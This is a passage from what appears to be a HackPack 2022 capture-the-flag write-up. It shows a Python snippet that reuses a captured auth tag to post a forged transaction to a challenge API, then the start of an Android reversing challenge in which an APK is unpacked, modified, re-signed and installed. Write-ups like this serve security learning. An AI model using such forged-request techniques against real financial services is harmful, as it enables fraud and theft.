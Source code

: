 ```python


j = json.loads(r.text)
auth = j["auth_tag"]

exploit = {
        "transaction":{
        "from_acct": tuco,
        "to_acct":1,
        "num_tuco":2
        },
        "auth_tag": auth
    }

r = requests.post(url + 'api/transaction/commit' , json = exploit , headers = headers)
print(r.text)

```

output

![](/images/hackpack2022/Pasted%20image%2020220411114235.png)


---

## Rev: 3T 3ND UR HOM3

This was an android challenge. We get an apk so we boot up an android emulator .

Unpacking the APK and editing AndroidManifest.xml to change the minimum android api version required to 23 (idk it was not working on my emulator, had to do this)
![](/images/hackpack2022/Pasted%20image%2020220411204608.png)

Repacking the apk.

![](/images/hackpack2022/Pasted%20image%2020220411205604.png)

Signing the apk
```bash
keytool -genkey -keystore test.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore my_application.apk alias_name
```

Now we install the apk

```bash
adb install modded.apk
```

![](/images/hackpack2022/Pasted%20image%2020220412000639.png)
